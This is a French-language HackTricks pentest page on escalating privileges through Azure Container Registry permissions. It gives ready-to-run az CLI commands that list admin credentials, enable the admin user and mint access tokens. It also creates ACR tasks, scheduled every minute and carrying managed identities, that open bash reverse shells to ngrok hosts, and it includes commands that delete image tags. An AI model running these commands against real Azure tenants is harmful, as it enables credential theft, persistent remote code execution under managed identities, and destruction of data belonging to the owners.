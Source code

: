 # Az - Azure Container Registry Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Registry

Pour plus d'informations, consultez :

{{#ref}}
../az-services/az-container-registry.md
{{#endref}}

### `Microsoft.ContainerRegistry/registries/listCredentials/action`

Cette permission permet à l'utilisateur de lister les identifiants d'administration de l'ACR. Cela est utile pour **obtenir un accès complet** au registre.
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>/listCredentials?api-version=2023-11-01-preview"
```
Dans le cas où les identifiants administratifs ne sont pas activés, vous aurez également besoin de la permission `Microsoft.ContainerRegistry/registries/write` pour les activer avec :
```bash
az rest --method PATCH --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerRegistry/registries/<registry-name>?api-version=2023-11-01-preview" --body '{"properties": {"adminUserEnabled": true}}'
```
### `Microsoft.ContainerRegistry/registries/tokens/write`, `Microsoft.ContainerRegistry/registries/generateCredentials/action`

Ces permissions permettent à l'utilisateur de **créer un nouveau token** avec des mots de passe pour accéder au registre.

Pour utiliser `az cli` pour le générer comme dans l'exemple suivant, vous aurez également besoin des permissions `Microsoft.ContainerRegistry/registries/read`, `Microsoft.ContainerRegistry/registries/scopeMaps/read`, `Microsoft.ContainerRegistry/registries/tokens/operationStatuses/read`, `Microsoft.ContainerRegistry/registries/tokens/read`
```bash
az acr token create \
--registry <registry-name> \
--name <token-name> \
--scope-map _repositories_admin
```
### `Microsoft.ContainerRegistry/registries/listBuildSourceUploadUrl/action`, `Microsoft.ContainerRegistry/registries/scheduleRun/action`, `Microsoft.ContainerRegistry/registries/runs/listLogSasUrl/action`

Ces permissions permettent à l'utilisateur de **construire et exécuter une image** dans le registre. Cela peut être utilisé pour **exécuter du code** dans le conteneur.

>[!WARNING]
> Cependant, l'image sera exécutée dans un **environnement isolé** et **sans accès au service de métadonnées**. Cela signifie que le conteneur n'aura pas accès aux **métadonnées de l'instance**, donc cela n'est pas vraiment utile pour élever les privilèges.
```bash
# Build
echo 'FROM ubuntu:latest\nRUN bash -c "bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/17585 0>&1"\nCMD ["/bin/bash", "-c", "bash -i >& /dev/tcp//2.tcp.eu.ngrok.io/17585 0>&1"]' > Dockerfile
az acr run --registry 12345TestingRegistry --cmd '$Registry/rev/shell:v1:v1' /dev/null
```
### `Microsoft.ContainerRegistry/registries/tasks/write`

C'est la principale autorisation qui permet de créer et de mettre à jour une tâche dans le registre. Cela peut être utilisé pour **exécuter un code à l'intérieur d'un conteneur avec une identité gérée attachée à celui-ci** dans le conteneur.

Voici un exemple de la façon d'exécuter un reverse shell dans un conteneur avec l'identité **gérée par le système** attachée à celui-ci :
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Une autre façon d'obtenir un RCE à partir d'une tâche sans utiliser un dépôt externe est d'utiliser la commande `az acr task create` avec le drapeau `--cmd`. Cela vous permettra d'exécuter une commande dans le conteneur. Par exemple, vous pouvez exécuter un shell inversé avec la commande suivante :
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task-cmd \
--image rev/shell2:v1 \
--cmd 'bash -c "bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/15508 0>&1"' \
--schedule "*/1 * * * *" \
--context /dev/null \
--commit-trigger-enabled false \
--assign-identity
```
> [!TIP]
> Notez que pour attribuer l'identité gérée par le système, vous n'avez besoin d'aucune autorisation spéciale, bien qu'elle doive avoir été activée au préalable dans le registre et avoir reçu certaines autorisations pour être utile.

Pour attribuer une **identité gérée par l'utilisateur également**, vous auriez besoin de l'autorisation `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action` pour faire :
```bash
az acr task create \
--registry <registry-name> \
--name reverse-shell-task \
--image rev/shell:v1 \
--file ./Dockerfile \
--context https://github.com/carlospolop/Docker-rev.git \
--assign-identity \[system\] "/subscriptions/<subscription-id>>/resourcegroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<mi-name>" \
--commit-trigger-enabled false \
--schedule "*/1 * * * *"
```
Pour **mettre à jour** le dépôt d'une tâche existante, vous pouvez faire :
```bash
az acr task update \
--registry <registry-name> \
--name reverse-shell-task \
--context https://github.com/your-user/your-repo.git
```
### `Microsoft.ContainerRegistry/registries/importImage/action`

Avec cette autorisation, il est possible d'**importer une image dans le registre azure**, même sans avoir l'image localement. Cependant, notez que vous **ne pouvez pas importer une image avec un tag** qui existe déjà dans le registre.
```bash
# Push with az cli
az acr import \
--name <registry-name> \
--source mcr.microsoft.com/acr/connected-registry:0.8.0 # Example of a repo to import
```
Pour **démarquer ou supprimer un tag d'image spécifique** du registre, vous pouvez utiliser la commande suivante. Cependant, notez que vous aurez besoin d'un utilisateur ou d'un jeton avec **suffisamment de permissions** pour le faire :
```bash
az acr repository untag \
--name <registry-name> \
--image <image-name>:<tag>

az acr repository delete \
--name <registry-name> \
--image <image-name>:<tag>
```
{{#include ../../../banners/hacktricks-training.md}}
